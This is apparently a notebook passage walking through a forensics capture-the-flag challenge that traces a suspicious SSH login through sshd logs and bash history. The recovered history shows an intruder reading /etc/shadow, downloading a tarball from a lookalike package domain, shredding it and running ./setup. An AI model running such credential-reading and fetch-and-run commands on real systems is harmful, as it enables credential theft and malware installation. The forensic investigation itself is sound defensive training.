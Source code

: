      '[2024-02-29 18:01:29] softdev 100.7.98.129 47765']
    '2024-02-19 04:00:14'



```python
io.sendline(f'{suslogin}'.encode())
```


```python
pprint(io.recvuntil(b">"))
```

    (b' \x1b[92m[+] Correct!\n\n\x1b[95m\x1b[95mWhat is the Fingerprint of the att'
     b"acker's public key\n\x1b[0m>")



```python
susloginline =!grep "$suslogin" $sshdlog | grep 'publickey' | cut -d' ' -f13
pprint(susloginline)
```

    ['SHA256:OPkBSs6okUKraq8pYo4XwwBg55QSo210F09FCe1-yj4']



```python
io.sendline(f'{susloginline[0].split(":")[1]}'.encode())
```


```python
pprint(io.recvuntil(b">"))
```

    (b' \x1b[92m[+] Correct!\n\n\x1b[95m\x1b[95mWhat is the first command the atta'
     b'cker executed after logging in\n\x1b[0m>')


Now that we determined roughly when the attacker logged in, let's look at the history and show all commands that happened on that day and around the time the suspicious login occurred.


```python
susloginrange = suslogin[0:-5]
print(susloginrange)
suscommands = !grep "$susloginrange" $bashhistory 
pprint(suscommands)
firstcommand = suscommands[0].split()[2]
print(firstcommand)
```

    2024-02-19 04:
    ['[2024-02-19 04:00:18] whoami',
     '[2024-02-19 04:00:20] uname -a',
     '[2024-02-19 04:00:40] cat /etc/passwd',
     '[2024-02-19 04:01:01] cat /etc/shadow',
     '[2024-02-19 04:01:15] ps faux',
     '[2024-02-19 04:02:27] wget '
     'https://gnu-packages.com/prebuilts/iproute2/latest.tar.gz -O '
     '/tmp/latest_iproute.tar.gz',
     '[2024-02-19 04:10:02] tar xvf latest.tar.gz',
     '[2024-02-19 04:12:02] shred -zu latest.tar.gz',
     '[2024-02-19 04:14:02] ./setup']
    whoami

